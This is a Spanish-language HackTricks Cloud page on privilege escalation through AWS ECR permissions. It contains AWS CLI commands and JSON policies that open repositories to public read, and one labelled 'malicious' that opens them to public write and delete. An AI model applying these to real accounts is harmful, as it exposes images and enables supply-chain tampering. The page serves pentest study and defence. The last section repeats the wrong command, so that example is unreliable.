 # AWS - ECR Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Un atacante con los permisos **`ecr:GetAuthorizationToken`** y **`ecr:BatchGetImage`** puede iniciar sesión en ECR y descargar imágenes.

Para obtener más información sobre cómo descargar imágenes:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

**Impacto potencial:** Privesc indirecto mediante la interceptación de información sensible en el tráfico.

### `ecr:GetAuthorizationToken`,`ecr:BatchCheckLayerAvailability`,`ecr:CompleteLayerUpload`,`ecr:InitiateLayerUpload`,`ecr:PutImage`,`ecr:UploadLayerPart`

Un atacante con todos esos permisos **puede iniciar sesión en ECR y cargar imágenes**. Esto puede ser útil para escalar privilegios a otros entornos donde se utilizan esas imágenes.

Para aprender cómo cargar una nueva imagen/actualizar una, consulte:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Como en la sección anterior, pero para repositorios públicos.

### `ecr:SetRepositoryPolicy`

Un atacante con este permiso podría **cambiar** la **política del repositorio** para otorgarse a sí mismo (o incluso a todos) **acceso de lectura/escritura**.\
Por ejemplo, en este ejemplo se da acceso de lectura a todo el mundo.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Contenido de `my-policy.json`:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

### `ecr-public:SetRepositoryPolicy`

Como en la sección anterior, pero para repositorios públicos.\
Un atacante puede **modificar la política del repositorio** de un repositorio público de ECR para otorgar acceso público no autorizado o para escalar sus privilegios.

```bash
bashCopy code# Crear un archivo JSON con la política maliciosa del repositorio público
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Aplicar la política maliciosa del repositorio público al repositorio público de ECR
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```

**Impacto potencial**: Acceso público no autorizado al repositorio público de ECR, lo que permite a cualquier usuario cargar, descargar o eliminar imágenes.

### `ecr:PutRegistryPolicy`

Un atacante con este permiso podría **cambiar** la **política del registro** para otorgarse a sí mismo, a su cuenta (o incluso a todos) **acceso de lectura/escritura**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```